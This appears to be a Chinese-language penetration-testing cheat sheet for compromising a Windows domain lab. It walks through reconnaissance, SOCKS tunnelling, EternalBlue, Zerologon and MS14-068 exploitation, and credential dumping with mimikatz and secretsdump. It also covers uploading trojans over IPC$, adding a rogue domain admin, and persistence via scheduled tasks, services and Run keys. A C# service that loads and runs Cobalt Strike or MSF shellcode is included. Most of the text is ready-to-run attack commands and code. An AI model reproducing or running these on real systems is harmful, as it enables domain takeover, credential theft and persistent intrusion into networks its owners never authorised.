




# 信息收集

## 域内信息收集

**1.查看网关和DNS的IP以及域名等等(通常DNS的ip就是域控IP)**

```
ipconfig /all
```

如下图执行结果所示，得到的信息可整理如下：

- 主机名: win7-1
- 主域: god.org
- 网卡1的ip: 192.168.47.149; 网卡2的ip: 192.168.47.143
- DNS服务器: 192.168.52.138

	


**2.列出当前域控的主机列表**

```
net view
```

- OWA(192.168.52.138)
- ROOT-TVI862UBEH(192.168.52.141)
- WIN7-1(192.168.52.143)


**3.列出当前域的域控**

```
net dclist
```

例如此处的域控是OWA（192.168.52.138）

	


**4.列出当前主机的共享资源**

```
net share \\[主机名]
```

	


**5.查看当前域的信任关系**

```
c:\windows\sysnative\nltest /domain_trusts
```

	

​	

## 收集用户信息

**1.查看当前主机的用户列表**

```
net user
```

	


**2.查看当前主机的登录用户**

```
echo %username%
```

```
whoami
```

	


**3.判断当前用户是否属于管理员组**

```
whoami/groups
```

如图所示，表示当前用户不属于管理员组(Administrators)，`BUILTIN`表示此组是系统刚安装完成时创建的

	


**4.查询指定组别的用户**

```
net localgroup administrators
```

	


**5.查看当前域内的所有用户(需要域控管理员权限)**

```
net user /domain
```

	


**6.查询企业管理员用户列表**

```
net group "enterprise admin" /domain
```

	


# 内网扫描

## ladon

### 介绍

[Ladon](https://github.com/k8gege/Ladon)是一个高级内网渗透测试工具，用于执行大规模网络扫描和攻击。它通过PowerShell模块化，可以内存加载，避免文件扫描。功能包括端口扫描、服务识别、网络资产探测、密码审计、漏洞检测和利用。它支持多种协议和技术以收集广泛的网络信息，并内置多个功能模块。


### 使用方法

首先将ladon.exe上传至目标主机

	


扫描内网网段的永恒之蓝漏洞，如下图显示，发现有三台内网主机存在永恒之蓝漏洞

```
ladon.exe [内网网段] MS17010
```

	


## Fscan

### 介绍

Fscan是一款开源的网络安全扫描工具，主要用于渗透测试和网络检测。它能够进行端口扫描、服务检测、操作系统识别、网络资产清点、漏洞扫描和爆破等多种安全测试功能

Fscan是用Go语言编写的。Go语言因其并发处理能力和效率而在网络安全工具开发中变得越来越受欢迎。使用Go语言可以让Fscan轻松地并行处理大量任务，并且跨平台编译成不同操作系统的执行文件，使其在多种环境下都能高效运行


### 使用方法

将fscan.exe上传至目标主机，执行如下命令扫描内网的存活IP以及常见漏洞。

```
fscan.exe -h 10.10.10.1/24
```

扫描结果显示有两台内网存活主机，其中一台`10.10.10.10`存在永恒之蓝漏洞


​			

## MSF

使用MSF的`scanner/discovery/udp_probe`模块来发现内网的存活IP

> Metasploit 的 `scanner/discovery/udp_probe` 模块是一个用于发现和识别网络中的 UDP 服务的扫描工具。它通过向目标主机的特定 UDP 端口发送探测包，然后分析返回的响应（如果有的话）来工作。这个模块对于识别开放的 UDP 端口和相应服务特别有用

```
set rhosts [目标网段]
set thread [线程数]
run
```


​		

可使用msf模块的`scanner/smb/smb_version`来确定内网主机的系统版本

```
set rhost [目标主机]
run
```

如下图所示，目标主机的系统版本可能是`Windows 7 Enterprise Service Pack 1 7601`


## nmap

当我们要内网主机的开放端口时，可使用proxychains来配合nmap实现

```
proxychains nmap -A 192.168.183.129
```


​	

# 隧道管理

在进行网络安全测试或攻击时，攻击者或渗透测试者可能需要访问到内网中不直接连接互联网的主机。这些主机由于处于内网深处，直接从外部网络访问它们通常是不可行的

为了解决这一问题，可以通过建立SOCKS隧道来转发流量，使得外部攻击者能够通过一个已经控制的内网机器（跳板机）间接地与深层内网中的目标机器通信

一旦SOCKS隧道建立，攻击者需要配置他们的攻击工具或EXP（Exploit）使用这个隧道。这意味着所有的网络流量将通过这个隧道转发，就好像攻击行为是从内网中的跳板机上发起的一样


## 隧道搭建

### CS开启SOCKS

CobaltStrike支持在Beacon命令行中启用SOCKS4或SOCKS5代理

```
socks [监听端口]  #默认使用socks4
```

	


或者在gui界面来指定使用Socks4或Socks5代理

	


### MSF配置路由转发

当你获取到一个内网主机的meterpreter会话后，你可以使用如下命令设置一个静态路由，目的是让MSF后续能访问内网的其他主机。

```
run get_local_subnets  #获取目标主机的内网网段

run autoroute -s 192.168.52.0/24 #对指定网段设置路由转发

run autoroute -p #查看所有设定了路由转发的网段
```

	


当然上述的路由转发只能在MSF内部生效，若想其他工具也能访问目标内网，还需在MSF中创建socks代理

```
msf5 exploit(multi/handler) > use auxiliary/server/socks4a 
msf5 auxiliary(server/socks4a) > run
```


​			

### FRP内网穿透

FRP支持多种代理模式，包括TCP、UDP、HTTP、HTTPS等。对于内网穿透和搭建SOCKS隧道来说，可以使用FRP的TCP隧道功能。FRP分为两部分：服务端（frps）和客户端（frpc）


**1.配置服务端(frps)**

在kali(公网)中开启frp服务端：`./frps -c ./frps.ini`

如下是frps.ini的内容，设置了frp服务端在7000端口监听连接，并定义了一个命名为`socks5`的TCP类型代理，该代理在1080端口监听，不需要认证。这样任何可以访问FRP服务端IP和7000端口的FRP客户端都可以设置并使用这个SOCKS5代理来转发流量

```
[common]
bind_port = 7000  

[socks5]
type = tcp
auth_method = noauth  ;表示这个代理不需要验证。如果你需要验证，可以设置为 userpass 并提供 username 和 password
bind_addr = 0.0.0.0
listen_port = 1080
```


**2.配置客户端(frpc)**

将frp客户端上传至内网出网主机并启动：`frpc -c frpc.ini`

如下是fprc.ini内容，设定了FRP客户端连接到服务器地址`192.168.47.188`上的7000端口，并定义了一个名为`socks5`的TCP代理。该代理使用1080作为远程端口，且设置为SOCKS5类型的插件

```
[common]
server_addr = 192.168.47.188
server_port = 7000

[socks5]
type = tcp
remote_port = 1080
plugin = socks5  
```


​	

## 配置代理

### MSF配置代理

在MSF中，`setg`命令用于设置全局变量，如果你设置了一个SOCKS代理，例如使用命令 `setg Proxies socks5:192.168.47.134:1080` 设置了一个全局代理，那么你需要设置 `ReverseAllowProxy true` 以确保通过代理的反向Shell可以成功建立连接

```
msf > setg proxies socks4:192.168.47.134:1080  #配置msf的socks代理服务器
msf > setg ReverseAllowProxy true #开启双向隧道
```


### Proxychains配置代理

Proxychains允许攻击者从他们的机器通过一个或多个中间“跳板”机器来访问目标网络或服务

攻击者在自己的机器上配置Proxychains，将SOCKS隧道设置为代理链中的一部分。这通常通过修改Proxychains的配置文件（通常是`/etc/proxychain4.conf`）来完成

	


# 漏洞利用		

## 永恒之蓝

### MSF模块

使用MSF的永恒之蓝漏洞扫描模块`scanner/smb/smb_ms17_010`，指定要扫描的内网ip。

```
set rhost [目标IP]
run
```

如下图所示，发现目标主机存在永恒之蓝漏洞


​	

使用`auxiliary/admin/smb/ms17_010_command`模块，利用漏洞实现远程执行命令，如下演示关闭目标主机的防火墙

```
msf5 > use auxiliary/admin/smb/ms17_010_command  #使用ms17010远程命令执行模块

msf5 auxiliary(admin/smb/ms17_010_command) > set rhosts 192.168.52.138  #设置目标主机ip

msf5 auxiliary(admin/smb/ms17_010_command) > set command netsh advfirewall set allprofiles state off #设置远程执行的命令(此处命令是关闭防火墙)

msf5 auxiliary(admin/smb/ms17_010_command) > run #开启攻击
```


使用`exploit/windows/smb/ms17_010_psexec`模块，返回一个目标主机的meterpreter会话

```
set rhost 192.168.52.141  #设置目标主机

set payload windows/meterpreter/bind_tcp  #设置监听协议

set lhost 192.168.47.134  #设置MSF的服务器IP

set lport 7777 #设置监听端口

run
```


或者使用`use exploit/windows/smb/ms17_010_eternalblue`模块（推荐使用此模块）来反弹会话，期间可能需尝试几次才能获取到目标主机的shell，执行成功会返回一个system权限的shell


### python脚本

经过测试，使用python脚本来利用永恒之蓝漏洞，其成功率比MSF模块高

首先需下载永恒之蓝的[python exp](https://github.com/3ndG4me/AutoBlue-MS17-010)，将CS生成的二进制文件`payload_x64.bin`(最好选择stager类型,stageless类型容易出现蓝屏)放入其shellcode目录，然后执行如下命令将`sc_x64_kernel.bin` 和`payload_x64.bin`合并成`sc_x64.bin`

```
cat sc_x64_kernel.bin payload_x64.bin > sc_x64.bin
```

	


将exp（分别是`eternalblue_exploit7.py`、`sc_x64.bin`）上至到内网中能够出网的主机。若此主机是linux，那么需要判断其是否安装了python，随后执行如下命令安装执行exp所需的impacket库

```
apt-get install python-impacket
```


执行如下命令利用永恒之蓝漏洞，过会目标上线

```
python2 eternalblue_exploit7.py 192.168.183.129 sc_x64.bin
```


或者你也可以不用将exp上传至内网主机上，可以配合proxychains走Socks代理实现对内网主机的永恒之蓝漏洞攻击，但是这种方法的成功率比较低


## CVE-2020-1472(打域控)

CVE-2020-1472是一个严重的Windows安全漏洞，被微软命名为"Zerologon"。它存在于Windows服务器的Netlogon远程协议中，该协议被用于各种任务，包括用户和机器身份验

Zerologon漏洞使攻击者能够在网络上的任何位置完全接管域控制器，并在没有用户交互的情况下执行此操作。一旦控制了域控制器，攻击者就可以执行各种恶意活动，例如添加新的域管理员账户，重置现有账户密码，执行代码等


使用`zerologon_tester.py`来扫描域控是否存在`CVE-2020-1472`漏洞

```
proxychains4 python3 zerologon_tester.py [域控主机名] [域控ip]
```

	


使用`cve-2020-1472-exploit.py`将域控制器账户的密码设置为空

> 域控制器账户是一个特殊的系统账户，用于运行域控制器服务和进行与其他系统的通信。这个账户通常是不可见的，并且不能用来登录或执行常规的用户操作
>
> 而"Administrator"通常是域管理员账户的默认名称，它拥有可以管理整个域，包括所有用户、计算机和服务的权限
>
> 在许多情况下，域管理员账户（例如Administrator）有足够的权限来管理域控制器和其它网络资源。然而，正如CVE-2020-1472（Zerologon）漏洞所展示的，攻击者如果能够以某种方式获得域控制器账户的权限，他们可能会绕过正常的认证机制并直接控制域控制器
>
> 所以总的来说，域控制器账户并不等同于Administrator账户，虽然两者都具有高级权限

```
proxychains4 python3 cve-2020-1472-exploit.py [域控主机名] [域控ip]
```


以下命令试图访问目标域中的域控账户，并且在这个过程中不需要密码，成功之后，它将尝试从目标服务器抓取并输出密码哈希值和其他凭据信息。此处需将域管理员账户Administrator的哈希值复制下来。

```
proxychains impacket-secretsdump [域名]/[域控主机名]\$@[域控ip] -no-pass
```

> `impacket-secretsdump`是Impacket库的一个工具，用于抓取Windows服务器的密码哈希值和其他凭据信息
>
> `-no-pass`：这是一个参数，表示我们在尝试访问目标服务器时不会提供密码。这个参数通常在已知存在某种漏洞（比如CVE-2020-1472）可以让我们在没有密码的情况下访问目标服务器时使用


以下命令利用`impacket-wmiexec`工具以及上述抓取到域控管理员哈希，在域控上以`administrator`用户的身份执行命令

```
proxychains impacket-wmiexec -hashes [AdministratorHash] administrator@[域控ip]
```

> `impacket-wmiexec`：这是Impacket库中的一个工具，它可以在远程Windows服务器上执行命令
>
> `-hashes`：这个选项允许你提供NTLM哈希值来进行身份验证，而不是使用密码，在这个命令中，你提供了一个LM哈希值（`aad3b435b51404eeaad3b435b51404ee`）和一个NTLM哈希值（`161cff084477fe596a5db81874498a24`）
>
> `./administrator@10.10.10.10`：这表示你希望以`administrator`用户的身份登录到IP地址为`10.10.10.10`的远程服务器


`reg save`命令将指定注册表键保存到指定文件，分别是`system.save`，`sam.save`，`security.save`。其目的是为了后续破解用户密码

- `reg save HKLM\SYSTEM system.save` ：`HKLM\SYSTEM` 键包含了关于操作系统配置的信息
- `reg save HKLM\SAM sam.save` ：`HKLM\SAM` 键包含了关于用户和用户组的信息
- `reg save HKLM\SECURITY security.save`：`HKLM\SECURITY` 键包含了关于系统安全设置的信息

	

	


使用`lget`命令从远程系统下载文件到本地系统，再使用`del`命令将这些文件从远程系统中删除

> `lget` 命令常用在一些远程管理和操作的环境中，例如交互式shell会话或者一些远程执行工具中，用于从远程系统下载文件到本地系统

	


在域控上创建一个新用户

```
net user Henry 1qaz@WSX /add /domain
```


将此用户添加至管理员组: `net group "Domain Admins" Henry /add /domain`


查询管理员组是否有刚添加的用户: `net group "Domain Admins"`


​	

查看本地目录，可以看到之前获取到的三个注册表文件


以下命令使用 Impacket 库中的 `secretsdump.py` 工具来从本地 Windows 注册表文件中提取凭据，将结果中的哈希值复制下来用于后续恢复域控制器账户的密码

```
impacket-secretsdump -sam sam.save -system system.save -security security.save local
```




使用`reinstall_original_pw.py`恢复域控制器账户的密码

```
proxychains python3 reinstall_original_pw.py dc [域控ip] [hex值]
```


再次尝试抓取域控制器账户的密码，若提示登录失败，则表示域控账户恢复成功


## MS14-068漏洞

MS14-068是一个著名的Windows Kerberos安全漏洞，允许攻击者篡改Kerberos票据，从而获取非法提权。这个漏洞特别影响Windows域控制器，能让攻击者伪造Kerberos票据，获取域内几乎任意账户的权限，包括域管理员权限。这使得攻击者可以在网络中随意访问和控制资源


### goldenPac.exe

goldenPac.exe适合MSF这种session类型的C2，因为其数据交互是实时的，首先我们需要先获取到目标域内的一个普通用户的账号密码

将goldenPac.exe上传至目标主机，执行如下命令，命令执行结果会返回域控的管理员权限cmd shell

```
goldenPac.exe [所在域]/[域内用户]:[域内用户密码]@[域控完整域名]
```


### MS14-068.exe

MS14-068.exe适合CobaltStrike这种sleep型的C2，相比上述goldenPac.exe，此处还需提供域内用户的sid

将MS14-068.exe上传至目标主机，执行如下命令，命令执行成功后会在当前文件夹下生成一个`TGT_douser@DEMO.COM.ccache`文件，这是一个票据文件，能够用于进一步的攻击活动

```
MS14-068.exe -u [域内用户名]@[所在域] -s [域内用户sid] -d [域控ip] -p [域内用户密码]
```




使用CS的内置mimikatz注入上述生成的票据

```
mimikatz # kerberos::purge    //清空当前机器中所有凭
mimikatz # kerberos::list     //查看当前机器凭证
mimikatz # kerberos::ptc [上述生成的票据文件]   //将票据注入到内存中
```


内存注入票据后，可无密码与域控建立IPC$连接

```
net use \\[域控主机名]
```


​		

# 横向移动		

## 域内文件传输	

若我们获取到了目标主机的管理员用户密码后，即可与其建立IPC$连接

```
net use \\[目标主机ip]\c$ [管理员密码] /user:[管理员用户]
```


使用copy命令将木马上传至目标主机的C盘

```
copy [你要上传的木马] \\[目标主机ip]\c$
```

	


最后通过查看目标主机的C盘目录，来判断是否上传成功

```
dir \\[目标主机ip]\c$
```

	


# 权限提升

## MSF提权扫描

使用MSF查找可能的提权漏洞，使用`post/multi/recon/local_exploit_suggester`模块，Metasploit会建议可能适用于该系统的本地提权漏洞，然后使用run命令执行此模块。

```
msf > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > set SESSION [your session id]
msf post(multi/recon/local_exploit_suggester) > run
```

	


# 凭据导出

## MSF内置mimikatz

当你获取到一个meterpreter会话并且拥有system权限

	


加载mimikatz：`load kiwi`


列出内存中的凭据：`creds_all`


或者使用mimikatz的命令来列出用户Hash：`sekurlsa::logonpasswords`

	


## CS内置mimikatz

在beacon命令行执行`logonpasswords`，成功获取到用户的凭据和SID


​				

# 权限维持

## 创建计划任务			

首先你需与目标主机建立IPC链接，使用`schtasks`命令远程创建计划任务执行后门程序

```
schtasks /create /s WIN-ENS2VR5TR3N /ru "SYSTEM" /tn mytask /sc ONCE /st 17:55 /tr C:\\beacon_x64.exe /F
```

> /ru: 运行该任务的用户, 对于系统帐户，有效值是 ""、"NT AUTHORITY\SYSTEM" 或"SYSTEM"
>
> /tn: 任务名称
>
> /sc: 任务执行频率, 常用的值有ONCE(执行一次)、DAILY(每天都执行)、ONSTART(开机执行)
>
> /tr: 要执行的文件
>
> /F: 强制执行任务


若要删除计划任务执行如下命令:

```
schtasks /delete /s WIN-ENS2VR5TR3N /tn "test" /f
```


## 创建系统服务	

通过sc命令来创建系统服务, 这里要注意，windows服务与常规应用程序的运行方式不同，windows服务需要与服务控制管理器(SCM)交互，因此我们需使用VisualStuido创建一个windows服务项目，并且需要知道目标系统支持的.NET版本，例如此处目标主机支持的.net版本是3.5及以下


代码如下所示，你只需填上CS或MSF生成的shellcode即可

```c#
using System;
using System.Collections.Generic;
using System.ComponentModel;
using System.Data;
using System.Diagnostics;
using System.Linq;
using System.ServiceProcess;
using System.Text;
using System.Runtime.InteropServices;

namespace SharpService_shellcodeloader
{

    public partial class Service1 : ServiceBase
    {
        [DllImport("kernel32.dll")]
        private static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        private static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
            uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
            byte[] lpBuffer, uint nSize, out UIntPtr lpNumberOfBytesWritten);

        [DllImport("kernel32.dll")]
        private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
           IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);


        public Service1()
        {
            InitializeComponent();
        }

        protected override void OnStart(string[] args)
        {
            // 填写cs或msf的Shellcode
            byte[] shellcode = new byte[894] {}


            IntPtr memoryAddress = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length,
                                                0x3000, 0x40);

            Marshal.Copy(shellcode, 0, memoryAddress, shellcode.Length);

            IntPtr threadHandle = CreateThread(IntPtr.Zero, 0, memoryAddress,
                                               IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(threadHandle, 0xFFFFFFFF);

        }

        protected override void OnStop()
        {
        }

    } 
}
```

​	

将上述代码生成的可执行程序上传至域控，使用如下命令创建服务并启动，目标主机成功上线

```
sc \\WIN-ENS2VR5TR3N create [任务名称] binpath= [可执行程序路径]   #创建任务
sc \\WIN-ENS2VR5TR3N description [任务名称] [任务描述]            #为任务添加描述信息
sc \\WIN-ENS2VR5TR3N start [任务名称]							#启动任务	
```


若要删除任务，可执行如下命令

```
sc \\WIN-ENS2VR5TR3N delete [任务名称]
```


## 修改注册表

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`是Windows在启动时会查看并运行所有列出程序的地方，通常用于程序的自启动设置。执行如下cmd命令，修改其键值`keyname`为后门程序的路径

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\\beacon.exe" /f
```


# 远程桌面登录

## 开启远程桌面服务

通过修改注册表来开启远程桌面服务(Remote Desktop Services)。远程桌面服务走的是RDP协议，这能够允许用户连接到另一台计算机的图形界面，其通常使用3389端口

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```


## 远程登录目标主机

若目标主机能够出网，可直接在kali使用`rdesktop`命令远程登录


若目标主机不能出网，你可能需要先远程登录到内网中某台能出网的主机，然后在这台主机的gui界面远程登录不出网主机

	


或者使用proxychains配合rdesktop命令来直接远程登录不出网主机

	

